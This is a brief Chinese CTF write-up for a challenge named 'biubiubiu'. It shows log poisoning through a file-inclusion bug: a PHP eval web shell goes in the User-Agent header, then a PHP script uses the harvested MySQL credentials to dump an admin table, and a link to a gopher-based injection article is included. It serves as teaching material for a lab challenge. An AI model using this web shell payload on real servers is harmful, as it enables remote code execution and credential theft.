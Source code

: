 ## Title
biubiubiu

## Steps
* 非预期解:
文件包含，fuzz发现可包含nginx的日志文件，于是修改UA为```<?php eval($_REQUEST[test]);?>```即可getshell,查看conn.php文件可以获得mysql的连接信息，于是写php脚本连接mysql服务器，发现数据表名为admin，获取admin表内的所有信息即可获得flag.  
conn.php
```php
$db_host = 'mysql';
$db_name = 'user_admin';
$db_user = 'Dog';
$db_pwd = '';

$conn = mysqli_connect($db_host, $db_user, $db_pwd, $db_name);

if(!$conn){
    die(mysqli_connect_error());
}
```
eval的脚本：
```php
<?php
$servername = "localhost";
$username = "Dog";
$password = "";
$dbname = "user_admin";

$conn = mysqli_connect($servername, $username, $password, $dbname);

 
$sql = "SELECT * from admin";
$result = mysqli_query($conn, $sql);

while($row = mysqli_fetch_assoc($result)) print_r($row);

?>
```

* 预期解：
[记一次利用gopher的内网mysql盲注](https://www.jianshu.com/p/6747fbc7b289)
